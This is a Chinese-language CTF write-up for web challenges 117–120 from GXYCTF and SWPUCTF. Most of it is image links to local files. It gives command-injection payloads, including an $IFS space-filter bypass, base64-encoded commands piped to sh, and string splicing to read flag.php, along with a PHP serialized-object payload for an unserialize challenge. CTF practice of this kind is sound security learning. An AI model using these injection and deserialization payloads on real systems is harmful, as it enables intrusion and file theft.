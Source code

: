 

## 117.[GXYCTF 2019]Ping Ping Ping

![image-20241126115429020](D:\ctf wp\81-120.assets\image-20241126115429020.png)

想cat flag时![image-20241126115533482](D:\ctf wp\81-120.assets\image-20241126115533482.png)

发现过滤了空格，绕过后发现过滤了flag![image-20241126115711307](D:\ctf wp\81-120.assets\image-20241126115711307.png)

先看看inedx.php![image-20241126120902063](D:\ctf wp\81-120.assets\image-20241126120902063.png)

?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh

把flag.phpbase64编码 然后-d|sh执行（绕狗bash

或者）?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php 简单拼接

或者调用内联函数?ip=127.0.0.1;cat$IFS`ls`





## 118.AreUSerialz

![image-20241126185407120](D:\专题图片2\image-20241126185407120.png)

![image-20241126185418619](D:\专题图片2\image-20241126185418619.png)

序列化后 绕过部分字符![image-20241126185922196](D:\ctf wp\81-120.assets\image-20241126185922196.png)

赋给str后 得到flag

或者用filter为协议![image-20241126214948842](D:\ctf wp\81-120.assets\image-20241126214948842.png)

直接构造为payload

![image-20241126190810284](D:\ctf wp\81-120.assets\image-20241126190810284.png)



## 119.[SWPUCTF 2021 新生赛]ez_unserialize

进入靶机查看源代码

![image-20241126195431800](D:\ctf wp\81-120.assets\image-20241126195431800.png)

看看robots协议![image-20241126195653473](D:\ctf wp\81-120.assets\image-20241126195653473.png)

后面就是反序列化![image-20241126195757479](D:\ctf wp\81-120.assets\image-20241126195757479.png)

注意强比较 ![image-20241126215419045](D:\专题图片2\image-20241126215419045.png)

构造payload：

?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}解

## 120.[SWPUCTF 2021 新生赛]no_wakeup
